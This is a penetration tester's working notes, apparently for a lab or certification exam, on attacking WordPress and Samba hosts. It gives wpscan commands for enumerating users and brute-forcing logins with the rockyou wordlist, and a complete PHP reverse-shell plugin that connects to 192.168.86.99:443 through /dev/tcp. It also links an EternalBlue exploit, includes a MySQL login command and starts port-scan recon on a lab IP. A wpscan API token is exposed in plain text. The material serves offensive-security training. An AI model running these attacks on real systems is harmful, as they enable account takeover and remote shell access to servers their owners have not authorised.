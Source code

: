 If wordpress then run wpscan and enumerate 
```
wpscan --url http://192.168.x.x/wordpress/ -e -t 25 -v  --force --api-token Sy5tZcHbYUJyHJbw6TbZBNqiyIO9copNXdF6Zkzh3cg -o WPScan.txt
```

If Users are found from enumeration "-e" then crack their logins

```
wpscan --url http://192.168.x.x/wordpress/ -t 20 -v  --force -U admin,user1,user2 -P /usr/share/wordlists/rockyou.txt
```

Once logged in then add in pentest monkey's reverse shell php code into the theme editor on one of the pages
![[Pasted image 20231105103720.png]]

Or upload the reverse shell plugin as a zip file
https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
#### Samba
Non Metasploit Eternal Blue Exploit
https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/README.md

### Access
MySQL has a specific way of accessing it since you need -p but type the password later
```sh
mysql --host=192.168.x.x --port=3306 --user=USERNAME -p
```

Or use GUI based `dbeaver
## 192.168.128.111 - Linux?
### Prep

Target IP given

Set up and enter the target directory
```sh
mkdir OSType-192.168.128.111 && cd OSType-192.168.128.111
```
### Recon
Start with a quick open port scan
```sh
rustscan 192.168.128.111
```
	PORT     STATE SERVICE       REASON
	80/tcp   open  http          syn-ack
	135/tcp  open  msrpc         syn-ack
	139/tcp  open  netbios-ssn   syn-ack
	443/tcp  open  https         syn-ack
	445/tcp  open  microsoft-ds  syn-ack